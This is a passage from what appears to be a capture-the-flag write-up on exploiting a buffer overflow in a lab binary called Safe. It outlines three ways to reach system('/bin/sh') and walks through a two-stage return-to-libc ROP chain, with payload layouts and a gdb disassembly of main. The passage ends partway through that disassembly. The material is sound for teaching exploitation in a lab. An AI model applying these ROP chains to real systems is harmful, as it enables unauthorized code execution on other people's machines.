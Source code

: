 I’ll show three different ways to attack this example:
- Method 1: Leak libc function address, calculate offset to `/bin/sh` string in libc, and then call `system(/bin/sh)`.
- Method 2: Write the string `/bin/sh` into `.data` and then call `system()`.
- Method 3: Abuse never called `test()` function to jump to `system()`.

#### Method 1: Two Stage

This is how I originally solved Safe. I will send in a payload that will leak the memory address for a libc function. This is often done to find the address of `system()`, but even though I already have `system()`, I can use it to find the address of a `/bin/sh` string in libc.

The first stage will look like:

```

payload = junk + pop_rdi + got_plt + plt_system + main

```

On the overflow, a POP RDI gadget will be the return address. It will return there, and pop the GOT address for `puts` (where the libc function is loading into memory) into RDI, and return. The return address waiting will be the PLT address for system. This will by like calling `system(address of puts)`. That will fail, but will print an error message, just like if I type a non-command into my terminal locally:

```

root@kali# 0xdf
-bash: 0xdf: command not found

```

Except in this case, the command not found is the address I want to know. So I will read that value in the return and use it for stage two. It’s much more common to use `puts` or `printf` instead of `system` for this kind of leak. I tried `puts`, but for some reason it wouldn’t work.

When `system` returns, the next address on the stack is `main`, so it will go back to the start.

Now my code can send a new payload, and this time it knows where libc is in memory. I’ll use that to calculate the address of `/bin/sh`, and then pass this payload:

```

payload = junk + pop_rdi + sh + plt_system

```

It will return to POP RDI, which will pop the address of `/bin/sh` into RDI, and then return to `system`.

Now I just need to find some addresses, and I have an exploit.

In `gdb`, I’ll disassemble main:

```

gdb-peda$ disassemble main 
Dump of assembler code for function main:
   0x000000000040115f <+0>:     push   rbp
   0x0000000000401160 <+1>:     mov    rbp,rsp
   0x0000000000401163 <+4>:     sub    rsp,0x70
   0x0000000000401167 <+8>:     lea    rdi,[rip+0xe9a]        # 0x402008
   0x000000000040116e <+15>:    call   0x401040 <system@plt>
   0x0000000000401173 <+20>:    lea    rdi,[rip+0xe9e]        # 0x402018
   0x000000000040117a <+27>:    mov    eax,0x0
   0x000000000040117f <+32>:    call   0x401050 <printf@plt>
   0x0000000000401184 <+37>:    lea    rax,[rbp-0x70]
   0x0000000000401188 <+41>:    mov    esi,0x3e8
   0x000000000040118d <+46>:    mov    rdi,rax
   0x0000000000401190 <+49>:    mov    eax,0x0
```
